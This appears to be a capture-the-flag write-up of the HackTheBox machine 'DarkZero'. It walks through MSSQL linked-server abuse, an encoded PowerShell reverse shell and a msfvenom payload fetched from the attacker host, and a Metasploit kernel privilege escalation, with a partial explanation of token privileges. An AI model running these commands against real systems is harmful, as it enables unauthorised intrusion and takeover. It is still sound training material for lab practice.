

Heyo~! This will be a writeup for the Hard HackTheBox box **DarkZero**.

This was my first Hard box I've ever solved, so this box holds a special place in my heart :).

I hope you enjoy!

## Recon
As always, we port scan the IP.
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ nmap -sCV -A -T4 -Pn -oA recon/nmap/nmap 10.129.18.160
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-05 13:51 -0400
Nmap scan report for 10.129.18.160
Host is up (0.021s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-05 17:51:10Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info:
|   10.129.18.160:1433:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.129.18.160:1433:
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
|_ssl-date: 2026-04-05T17:52:34+00:00; -8s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-05T17:13:01
|_Not valid after:  2056-04-05T17:13:01
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows Server 2022 (87%), Microsoft Windows Server 2012 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -7s, deviation: 0s, median: -7s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-04-05T17:51:59
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   19.49 ms 10.10.14.1
2   21.88 ms 10.129.18.160

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.54 seconds
```

We can see services like Kerberos, SMB, LDAP, MSSQL. Overall some pretty normal Active Directory services. We are given some creds: `john.w:RFulUtONCOL!`, so let's start by enumerating some services with them. Also important to note is that our domain name is `darkzero.htb`.

## Foothold

### SMB Enumeration

I always start with SMB as it can be a pretty easy win. File sharing, credentials, possible RCE, what's not to love :).

```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ nxc smb darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' --shares
SMB         10.129.18.160   445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.18.160   445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL!
SMB         10.129.18.160   445    DC01             [*] Enumerated shares
SMB         10.129.18.160   445    DC01             Share           Permissions     Remark
SMB         10.129.18.160   445    DC01             -----           -----------     ------
SMB         10.129.18.160   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.18.160   445    DC01             C$                              Default share
SMB         10.129.18.160   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.18.160   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.18.160   445    DC01             SYSVOL          READ            Logon server share
```

Looks like our creds work with SMB. We don't have write access to any shares so we can't immediately pop a shell, but we have read access to some. Let's continue enumerating this access.

There seems to be some policy files in SYSVOL/darkzero.htb. Grab everything!

```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ smbclient -U 'darkzero.htb/john.w'  //darkzero.htb/SYSVOL
Password for [DARKZERO.HTB\john.w]:
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \darkzero.htb\DfsrPrivate\*
getting file \darkzero.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as darkzero.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
<SNIP>
```

Looking through these files, there's nothing really interesting. One of the files specifies some GPO permissions, but nothing we can use right now. Let's move on

### MSSQL Enumeration

Let's check MSSQL next.

```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@darkzero.htb -windows-auth
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)>
```

Looks like we also have access to MSSQL. We can continue enumerating our privileges to look for easy wins.

- DB enumeration
```bash
SQL (darkzero\john.w  guest@master)> enum_db
name     is_trustworthy_on
------   -----------------
master                   0
tempdb                   0
model                    0
msdb                     1
```
- link enumeration
```bash
SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL
DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL
Linked Server       Local Login       Is Self Mapping   Remote Login
-----------------   ---------------   ---------------   ------------
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc
```

This is interesting. A database link exists to `DC02.darkzero.ext` which allows for a local login with `john.w`. We'll keep this in the back of our mind as we keep enumerating.

- impersonate priv enumeration
```bash
SQL (darkzero\john.w  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor
----------   --------   ---------------   ----------   -------   -------
```
- login enumeration
```bash
SQL (darkzero\john.w  guest@master)> enum_logins
name                    type_desc       is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin
---------------------   -------------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------
sa                      SQL_LOGIN                 1          1               0             0            0              0           0           0           0
darkzero\john.w         WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0
darkzero\Domain Users   WINDOWS_GROUP             0          0               0             0            0              0           0           0           0
```
- user enumeration
``` bash
SQL (darkzero\john.w  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID
------------------   --------   ---------   ---------   -------------   ----------   -----
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'
guest                public     NULL        NULL        guest           b'2         '   b'00'
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL
sys                  public     NULL        NULL        NULL            b'4         '    NULL
```
- xp_cmdshell check
```bash
SQL (darkzero\john.w  guest@master)> enable_xp_cmdshell
ERROR(DC01): Line 105: User does not have permission to perform this action.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
```
- xp_dirtree check
```bash
SQL (darkzero\john.w  guest@master)> xp_dirtree //10.10.14.53/adsf
subdirectory   depth   file
------------   -----   ----
```

Most of the results don't show anything; however, we do have `xp_dirtree` access and some linked databases.

### Capturing NTLMv2 Hash (Failed)

Starting with `xp_dirtree`. We can try to sniff NTLMv2 hashes with `Responder` to crack them offline.

- Start `Responder`
```bash
┌──(kali㉿kali)-[~/…/MACHINE/Microsoft/Windows NT/SecEdit]
└─$ sudo responder -I tun0
[sudo] password for kali:
<SNIP>
[+] Listening for events...
```

- Use `xp_dirtree` to call back to our attack host and see what happens!
```bash
SQL (darkzero\john.w  guest@master)> xp_dirtree //10.10.14.53/sharefdsa
subdirectory   depth   file
------------   -----   ----
```

```bash
[SMB] NTLMv2-SSP Client   : 10.129.18.160
[SMB] NTLMv2-SSP Username : darkzero\DC01$
[SMB] NTLMv2-SSP Hash     : DC01$::darkzero:90d7279ccf7c2964:880DABA2A95F68D8069EED38B19CD6E4:0101000000000000007CD50C08C5DC01DB8EB5CE0FC014500000000002000800310054005600320001001E00570049004E002D005A004500520055004D005A0043004A004A003400420004003400570049004E002D005A004500520055004D005A0043004A004A00340042002E0031005400560032002E004C004F00430041004C000300140031005400560032002E004C004F00430041004C000500140031005400560032002E004C004F00430041004C0007000800007CD50C08C5DC01060004000200000008003000300000000000000000000000003000000FAEC10677B14243C6474B78E59316C0F001E0EF8A016091CFD442B40A17BBA10A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00350033000000000000000000
```
- Try to crack with hashcat
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
<SNIP>
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: DC01$::darkzero:90d7279ccf7c2964:880daba2a95f68d806...000000
Time.Started.....: Sun Apr  5 14:26:54 2026 (5 secs)
Time.Estimated...: Sun Apr  5 14:26:59 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2742.8 kH/s (1.14ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...:  kristenanne -> $HEX[042a0337c2a156616d6f732103]

Started: Sun Apr  5 14:26:53 2026
Stopped: Sun Apr  5 14:27:01 2026
```

In a real-life engagement, I would keep trying to crack this hash; however, HTB usually uses passwords from `rockyou.txt`. Therefore, the fact that this was exhausted usually means this isn't the right solution.

### Using MSSQL DB Link

Turning our attention back to the database links, we know that we *should* have access to the DB at `DC02.darkzero.ext`. We can test this by trying to connect to it.

```bash
SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)>
```

Success!

It looks like we have `xp_cmdshell` access on this database.

```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> enable_xp_cmdshell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell whoami
output
--------------------
darkzero-ext\svc_sql
NULL
```

We can use this privilege to start a reverse shell session and gain our foothold!

- Starting listener
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

- Calling reverse shell (www.revshells.com)
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```
- And we are able to catch the callback with `nc`.
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.129.18.160] 60178
whoami
darkzero-ext\svc_sql
PS C:\Windows\system32>
```
## Privesc to DC02 Local Admin

### CVE-2024-30088 (Unintended)

This is the method I used when I first solved the box. It's honestly much easier than the intended route. Do I feel ashamed? Maybe ;)

Our foothold lands us on `darkzero-ext` as the `svc_sql` user. We can do some initial triage to privesc.

The output of `systeminfo` shows that we are using a pretty old build of Windows Server 2022. It's likely there's a CVE for this version somewhere.

```cmd
PS C:\Windows\system32> systeminfo

Host Name:                 DC02
OS Name:                   Microsoft Windows Server 2022 Datacenter
OS Version:                10.0.20348 N/A Build 20348
<SNIP>
Hotfix(s):                 N/A
<SNIP>
```

Doing a quick search for CVEs leads us to [CVE-2024-30088](https://nvd.nist.gov/vuln/detail/CVE-2024-30088)

Metasploit seems to have a module for this

```bash
msf > search CVE-2024-30088

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/windows/local/cve_2024_30088_authz_basep  2024-06-11       excellent  Yes    Windows Kernel Time of Check Time of Use LPE in AuthzBasepCopyoutInternalSecurityAttributes


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/cve_2024_30088_authz_basep
```

Let's restart our reverse shell, but this time catch it with Metasploit

- Start a msf handler
```bash
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set payload payload/windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.14.53
LHOST => 10.10.14.53
msf exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.53:4445
```

- Creating Meterpreter payload
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero/payloads]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.53 LPORT=4445 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
```

- Start HTTP server
```bash
┌──(kali㉿kali)-[~/Documents/htb/darkzero/payloads]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- Download the payload to the host
```powershell
PS C:\users\svc_sql\Documents> (New-Object Net.WebClient).DownloadFile('http://10.10.14.53:8080/shell.exe', 'C:\users\svc_sql\Documents\shell.exe')
```

run `shell.exe` on the host, and you should get a meterpreter session!

- Background the session and search use the CVE module for privesc.

```bash
msf exploit(multi/handler) > search CVE-2024-30088

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/windows/local/cve_2024_30088_authz_basep  2024-06-11       excellent  Yes    Windows Kernel Time of Check Time of Use LPE in AuthzBasepCopyoutInternalSecurityAttributes


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/cve_2024_30088_authz_basep

msf exploit(multi/handler) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

- Set the options, run, and enjoy your root access!

```bash
msf exploit(windows/local/cve_2024_30088_authz_basep) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LHOST 10.10.14.53
LHOST => 10.10.14.53
msf exploit(windows/local/cve_2024_30088_authz_basep) > set LPORT 4446
LPORT => 4446
msf exploit(windows/local/cve_2024_30088_authz_basep) > run
[*] Started reverse TCP handler on 10.10.14.53:4446
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
[*] Reflectively injecting the DLL into 4048...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 856
[+] Successfully retrieved winlogon pid: 608
[*] Sending stage (244806 bytes) to 10.129.21.124
[*] Meterpreter session 2 opened (10.10.14.53:4446 -> 10.129.21.124:55651) at 2026-04-07 19:43:59 -0400
<SNIP>
C:\Windows\system32>whoami
whoami
nt authority\system
```

### Service Account Token Elevation (Intended)

Like I said before, I did not find this method myself. Take a look at [motasem's notes](https://motasem-notes.net/hackthebox-htb-darkzero-writeup/) for a good writeup on the topic!

Anyways, through more basic enumeration, you can see an interesting file `C:\Policy_Backup.inf` which seems to be an export of the domains policy.

```cmd
<SNIP>
SeServiceLogonRight = *S-1-5-20,svc_sql,SQLServer2005SQLBrowserUser$DC02,*S-1-5-80-0,*S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775,*S-1-5-80-344959196-2060754871-2302487193-2804545603-146610
<SNIP>
SeImpersonatePrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-6                                                                                                                                              
<SNIP>
```

There are 2 privileges in the file that are relevant to us: `SeImpersonatePrivilege` and `SeServiceLogonRight`.

#### SeImpersonatePrivilege

`SeImpersonatePrivilege`, or "Impersonate a client after authentication", is a privilege that allows a user/process to *impersonate* another user's security token, essentially becoming that user. This is useful for service accounts because sometimes you want to use a client's security context to enforce that user's authentication on the service's action.

As an example, imagine you want to set up a web application using Windows IIS. You want the web application to read/write user files on the OS, but the file system's user permissions are protected by the OS itself and, in turn, each user's security token. When a user on the webapp tries to access a file, the underlying OS operation will be performed by the IIS service account. Without `SeImpersonatePrivilege`, the IIS service account would use it's own security token and would be unable to access that user's files. With `SeImpersonatePrivilege` however, IIS is able to use the user's security token, present it to the OS, and access that user's files.

This functionality is pretty important, thus the privilege is usually given to service accounts by default. However, you can imagine that this privilege walks a fine line of being unsafe. If a service account is able to impersonate a SYSTEM-level security token, that service account would essentially become root! This is the exact idea of the Potato-family privilege escalation techniques.

#### SeServiceLogonRight

So if service accounts are usually given the `SeImpersonatePrivilege`, and we can even see form the policy that service accounts should get this privilege (`SeImpersonatePrivilege = *S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-6`), why don't we see this privilege in our security context?

```bash
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Notice that `SeImpersonatePrivilege` is missing. 

In the wonderful and strange world of Windows Internals, there are generally two types of security tokens: Primary and Impersonate. Primary tokens are exactly what you think, the main token used by users/services with all their juicy god-given privileges. When an account/service starts a processes, it usually attaches it's primary token to that process, and the process inherits all the rights of the creator. However, our case is different due to our shell running under `xp_cmdshell`. I won't get in to the specifics (because I honestly don't really know why), but when MSSQL calls `xp_cmdshell`, it uses a restricted version of it's own primary token.

To remedy this, we need to run in a process with the *real* svc_sql primary token. This is exactly what `SeServiceLogonRight` does!

